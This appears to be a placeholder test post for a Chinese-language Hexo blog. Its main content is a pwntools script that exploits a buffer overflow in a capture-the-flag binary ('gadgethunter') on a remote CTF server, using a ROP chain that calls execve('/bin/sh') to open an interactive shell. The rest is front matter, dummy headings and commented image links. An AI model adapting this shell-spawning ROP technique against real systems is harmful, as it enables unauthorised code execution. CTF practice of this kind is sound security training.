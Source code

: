 ```yaml
---
title: test
date: 2025-07-24 19:19:42
tags: test
categories:
    - 教學
keywords:
    - hexo
    - blog
    - 部落格
    - github
description: "這是一則關於文章的簡要說明"
---
```


# test1

## test2

### test3

-   img
    <!-- ![image1](./test/frostbean_thinking.jpg)
    ![image2](test/frostbean_thinking.jpg) -->
    ![image3](frostbean_thinking.jpg)
    <!-- ![image2](frostbean_thinking.jpg) -->

```python
from pwn import *

# con = process("./gadgethunter")
con = remote("ctf.adl.tw", 10004)

buf_addr = 0x4c6170
# buf = b'/bin/bash\x00'
pop_rdi = 0x0000000000401ebf # : pop rdi ; ret
pop_rsi = 0x0000000000409eee # : pop rsi ; ret
pop_rax_rdx_rbx = 0x0000000000485c0a #: pop rax ; pop rdx ; pop rbx ; ret
bin_bash = 0x7fffffffdb60 #0x7ffeded74890
pop_rsp = 0x000000000040231e #: pop rsp ; ret
syscall = 0x0000000000401c74 # : syscall
add_al_11_mov_rax8_rdx = 0x00000000004520a1 #: adc al, 0x11 ; mov qword ptr [rax + 8], rdx ; ret
payload = b'a'*40 + p64(pop_rax_rdx_rbx) + p64(0x4c6157) +b'/bin/sh\x00' + \
p64(0x0) + p64(add_al_11_mov_rax8_rdx) + p64(pop_rax_rdx_rbx) + p64(0x3b) + \
p64(0x0) + p64(0x0) + p64(pop_rsi) + p64(0x0) + p64(pop_rdi) + p64(buf_addr) + \
p64(syscall)

con.recvuntil(b'message:\n')
raw_input()
con.sendline(payload)
# sleep(0.1)
# con.sendline(buf)

con.interactive()
con.close()
```

<!-- :::info
it's info
:::

:::danger
it's danger
::: -->
